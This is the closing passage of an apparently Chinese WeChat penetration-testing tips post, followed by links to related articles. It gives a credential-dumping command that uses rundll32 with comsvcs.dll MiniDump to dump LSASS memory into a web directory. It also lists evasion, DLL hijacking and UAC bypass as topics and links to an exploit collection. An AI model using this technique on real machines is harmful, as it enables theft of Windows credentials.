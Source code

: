   
**11. 提供一个不要 prodump 抓 lsass 的方法**

tasklist | findstr lsass.exe 查找 lsass 的 pid 号

powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 592 D:\wwwroot\huodong\lsass.dmp full"

**（7）免杀，dll 劫持, dll 注入，委派，bypass uac**

这些都是当我们基本打好了以后才能更好的吸收和掌握，网上也有很多师傅讲过，

  
至于 web 的，我上传了一些 Poc 在我的 github，大家有兴趣可以看看

  
https://github.com/xinxin999/Exp-collect

@

**欢迎加我微信：zkaq99、**实时分享安全动态

* * *

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSE8r6UDibLl3oFOu6cEZPryVrS6n7TfhmDVMfKfIfc7nicyXQ0r0CjPZxPIACeen4QF4fuLwsRBhzMw/640?wx_fmt=jpeg)

[

实战 | 渗透摄像头

2021-06-07

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSH9t7u1E1mfrIxADDU04GcKFLnQuiar2DRV6ul6WicaAx894LSL9XKPeoOptKONXEpufUvRfHEqj8IA/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247521870&idx=1&sn=a4201fa9fa2fa7ac0693c7e324953993&chksm=ebeadf63dc9d567522f4d32b0ae33e03edf0964de0124bd53cc45b495d3fae8417eebfb732c4&scene=21#wechat_redirect)

[

记一次批量刷漏洞

2021-06-11

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSFyVfgq0XrOk4T4z5stANyHQCUlS80H0GWrU59uh2iafdpRRNtse6Wa9Cok0ntpWbMYJ9qBcRRXq2g/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247522606&idx=1&sn=d7b52504576d3d4450979ea14158d3ea&chksm=ebead003dc9d59150c4c1599391975db3bf41d5267f270947819acbef539fa392f05c5ce2ad8&scene=21#wechat_redirect)

[

利用 python 完成大学刷课（从 0 到完成的思路）

2021-06-06

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHkvnCnsBn2mKH5btCeBEkhOWBF94KdmIDM01G5bUUvibhG4KMw5f84BZvwWXibyxYXqTHiaduyCuVrw/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247521848&idx=1&sn=ea6348b0b3978f4b3814a1c6a8b86a46&chksm=ebeadf15dc9d5603f947d79880e13aec69778a464f69954998ed6ffe895a2f5c78cb57ab01f9&scene=21#wechat_redirect)
